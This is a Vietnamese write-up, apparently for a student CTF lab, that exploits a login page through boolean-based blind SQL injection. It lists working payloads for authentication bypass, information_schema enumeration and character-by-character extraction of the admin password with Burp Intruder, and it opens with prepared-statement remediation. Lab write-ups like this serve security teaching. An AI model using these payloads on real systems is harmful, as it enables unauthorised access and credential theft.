# Link demo : 
# Cách khắc phục :
Có thể khắc phục bằng cách tham số hóa đầu vào của thâm số người dùng truyền vào bằng một số cách như là:
-  $stmt = $conn->prepare("SELECT * FROM users WHERE username = ? AND password = ?");
  $stmt->bind_param("ss", $username, $password);
  $stmt->execute();
- Hoặc làm sạch đầu vào   $cleaned_username = mysqli_real_escape_string($conn, $username);
$cleaned_password = mysqli_real_escape_string($conn, $password);
- Và tìm hiểu các CVE của các phiên bản để tránh được lỗi này có thể xảy ra.

Ban đầu em vào giao diện sẽ như thế này ạ
cheatsheet 



- Thường thì login nên là lỗi sẽ kiểu loanh quanh sqli, jwt, authentication nên em dùng sqli liền:v

Ban đầu em test với payload "administrator'+OR+1=1--+-&password=aaa&login="
+ Em nhận được chuỗi chào mừng với tên administrator, thường thì như này là bypass ổn rồi nhưng mà em sẽ tìm cách để biết được password của admin để quang minh chính đại vào:<

- cái này em quên liệt kê đó là nếu mà đăng nhập sai sẽ nhận được chuỗi như này


- sau đó em dùng câu lệnh điều kiện trong mysql "' OR (case when 1=1 then 1 else 0 end)=1+--+-"
+ Câu lên này sẽ checking NẾU 1=1 thì sẽ trả ra 1 còn nếu sai trả ra 0 và đương nhiên là 1=1 rồi nên sẽ luôn trả ra 1 và 1=1 nên OR true sẽ luôn đúng và ta sẽ nhận được kết quả

+ Này là một dạng Blind SQL rồi nên em sẽ làm luôn ạ:v
+ Flow: xác định tên bảng-> tên cột-> dumb bằng brute force @@
Bởi vì là mình dumb từng kí tự nên cũng sẽ phải check trước độ dài của dữ liệu

- Tìm hiểu đôi chút là trong infomation_schema.tables có

- Đoạn engine='InnoDb';
- Đầu tiên em sẽ tìm độ dài của tên bảng
payload : "' OR (case when (select length(table_name) from information_schema.tables where engine='InnoDB' limit 0,1)>0 then 1 else 0 end)=1 -- -"

- Và kết quả luôn đúng vì em tên bảng luôn lớn hơn 0 và em được kết quả


- Sau đó em dùng burp intruder để tìm length table_name


add tiếng việt bị lỗi nên em chỉ grep Chào


- Kết quả có thể thấy là khi length table > 5 thì em không còn nhận được sự chào mừng nữa
- Nên độ dài của tên bảng sẽ là 5

+ Sau đó em brute-force tên bảng với payload "' OR (case when (select substring((select table_name from information_schema.tables where engine='Innodb' limit 0,1),§1§,1)='§0§' then 1 else 0 end)=1 -- - "
- EM được tên bảng là users

+ Em tiếp tục sử dụng 
' OR (case when (select length(column_name) from information_schema.colums where table_name='users' limit 2,1)>0 then 1 else 0 end)>1 -- -
- Em nhận được kết quả

- Em tiếp tục sử dụng burp intruder và tìm được độ dài cột thứ nhất là 2, cột thứ 2 là 9, cột thứ 3 là 8 cột cuối cùng là 4

+ bây giờ em dumb giá trị bằng intruder với payload : "a'+OR+(case+when+substring((select+column_name+from+information_schema.columns+where+table_name%3d'users'+limit+0,1),§1§,1)%3d'§0§'+then+1+else+0+end)%3d1+--+-"


- Payload 1 là vị trí của kí tự: là number vì cột đầu có 2 kí tự nên ta sẽ set từ 1->2
- Payload 2 là giá trị của kí tự mình sẽ brute force ạ nếu muốn thêm kí tự có thể thêm vào ô 


Grep kết quả:


Em nhận được kết quả là :




- Vậy là em đã có tên của cột đó là id, username, password và tương tự cột cuối là role

- Bây giờ em bắt đầu dumb dữ liệu tương tự như cách để dumb tên của table
em dùng payload :"a'+OR+(case+when+substring((select+password+from+users+limit+0,1),§1§,1)='§0§'+then+1 else+0+end)=1+--+-"

- Em dùng payload1 là number payload 2 là brute force dùng clustẻ bomb em nhận được password là:
hihi123
Tương tự như database của em

Nên em đã thành công "mượn" được mật khẩu administrator và em đã đòi được tiền chuộc sau khi đăng nhập là
Bạn đã hack tôi bây giờ là admin :( đây là tiền chuộc KCSC_TASK{____b4N_D^n9_h4ck_t@i_h3t_1ieN_R0i___}